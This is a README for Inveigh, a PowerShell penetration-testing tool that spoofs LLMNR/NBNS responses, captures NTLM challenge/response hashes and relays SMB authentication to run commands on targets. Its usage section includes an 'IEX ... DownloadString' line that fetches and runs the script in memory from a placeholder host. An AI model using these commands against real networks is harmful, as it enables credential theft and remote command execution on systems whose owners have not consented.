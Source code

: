 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.
10. SMB relay support is experimental at this point, use caution if employing on a pen test.

# Usage
Obtain an elevated administrator or SYSTEM shell and use a method to load the module

To import with Import-Module:   
Import-Module ./Inveigh.psd1  

To import using dot source method:  
. ./Inveigh.ps1  
. ./Inveigh-Relay.ps1  

To load into memory using Invoke-Expression:  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh-Relay.ps1")  

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:    
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpoofIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled through Invoke-Inveigh:   
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

To execute with SMB relay with only Invoke-InveighRelay:  
Invoke-InveighRelay -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"  

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Functions
Invoke-Inveigh - Start Inveigh with or without parameters  
Invoke-InveighRelay - SMB relay function  
Get-Inveigh - Get queued console output  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Watch-Inveigh - Enable real time console output  
Clear-Inveigh - Clear Inveigh data from memory  
Stop-Inveigh - Stop all running Inveigh functions  

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveigh1](https://cloud.githubusercontent.com/assets/5897462/10326306/98bb11da-6c67-11e5-8c58-c9ed1107ec19.png)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive PowerShell Session payloads
![inveigh5](https://cloud.githubusercontent.com/assets/5897462/10354363/53e73784-6d2d-11e5-8509-9bb7f3feab88.png)
